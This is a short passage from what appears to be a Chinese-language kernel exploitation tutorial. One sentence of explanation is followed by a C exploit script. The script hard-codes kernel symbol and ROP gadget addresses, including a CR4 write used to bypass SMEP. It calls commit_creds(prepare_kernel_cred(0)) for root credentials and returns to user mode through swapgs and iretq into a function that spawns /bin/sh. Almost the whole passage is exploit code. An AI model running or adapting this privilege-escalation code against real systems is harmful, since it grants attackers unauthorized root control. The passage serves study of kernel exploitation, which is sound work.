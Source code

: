 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>tf跟上一篇里的一样，只是变为了64位的，就需要用64位的内联汇编来赋值，内联汇编的资料我以后再放。完整脚本如下：</font></br>

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>


#define KERNCALL __attribute__((regparm(3)))

void *(*prepare_kernel_cred)(void *) KERNCALL=0xffffffff8109bce0;
void *(*commit_creds)(void *) KERNCALL=0xffffffff8109ba30;
unsigned long pop_rdi_ret=0xffffffff8108e34d;
unsigned long mov_cr4_rdi_pop_rdp_ret=0xffffffff81004d70;
unsigned long swapgs=0xffffffff81060274;

void get_shell()
{
	system("/bin/sh");
}

struct trap_frame {
	void *rip;
	unsigned long cs;
	unsigned long eflags;
	void *rsp;
	unsigned long ss;
}__attribute__((packed));

struct trap_frame tf;

void init_tf_work(void)
{
	asm volatile("movq %%cs,%0;" // tf+8  set cs
	    "pushfq;" //tf+16  set eflags
	    "popq %1;" //tf+16  set eflags
	    "movq %%rsp,%2;"//tf+24  set rsp
	    "movq %%ss,%3;" //tf+32  set ss
	    		:"=r"(tf.cs),"=r"(tf.eflags),
			"=r"(tf.rsp),"=r"(tf.ss));
	tf.rip = &get_shell;
	tf.rsp -= 1024;
}

/*
void trigger_root()
{
	commit_creds(prepare_kernel_cred(0));
	asm("movq %0,%%rsp"::"r"(&tf));
	asm("iretq");
}
*/

void get_root()
{
	commit_creds(prepare_kernel_cred(0));
	asm("swapgs");
	asm("movq %0,%%rsp"::"r"(&tf));
	asm("iretq");
}
```